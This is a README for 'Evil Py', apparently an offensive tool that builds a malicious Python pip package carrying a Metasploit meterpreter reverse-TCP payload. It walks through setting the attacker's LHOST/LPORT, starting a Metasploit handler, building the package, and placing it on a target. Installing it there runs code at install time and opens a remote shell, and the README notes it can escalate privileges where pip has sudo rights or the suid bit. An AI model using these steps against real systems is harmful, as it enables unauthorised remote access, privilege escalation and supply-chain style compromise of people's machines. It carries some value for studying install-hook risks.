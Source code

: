 # Evil Py
This is a python package MSF Payload developed by sn0wfa11.

Python users need to be aware that packages installed via `pip` have the ability to execute python code as part of the install process. This can be leveraged in situations where an attacker is able to execute pip commands remotely or for privilege escalation when a low priv user has sudo rights to `pip` or root's suid bit is set. 

https://github.com/sn0wfa11

## Setup Instructions
- Change the IP and Port in setup.py to your LHOST and LPORT
- Start a Metasploit listener for payload `python/meterpreter/reverse_tcp`
```
msf > handler -p python/meterpreter/reverse_tcp -H <Your LHOST> -P <Your LPORT>
```
- Install the package build process dependencies
```
python -m pip install --user --upgrade setuptools wheel
```
- Build the package 
  - Go to the directory where setup.py is located
  - **Note: This will pop a shell on you build computer! Great way to test the package**
  - This will throw errors, but don't worry about it. *This is intentional as I don't want any of this uploaded to the official Python package deployment system.*
```
python setup.py sdist bdist_wheel
```
- Grab the .tar.gz file out of the /dist folder and place this on your target. 
  - There may be multiple ways to get the package to the target... but that's for you to research. ;)
- Run `pip install evil_py-<version>.tar.gz`
- Works great for PE if you have sudo rights for pip or pip's suid bit is set!
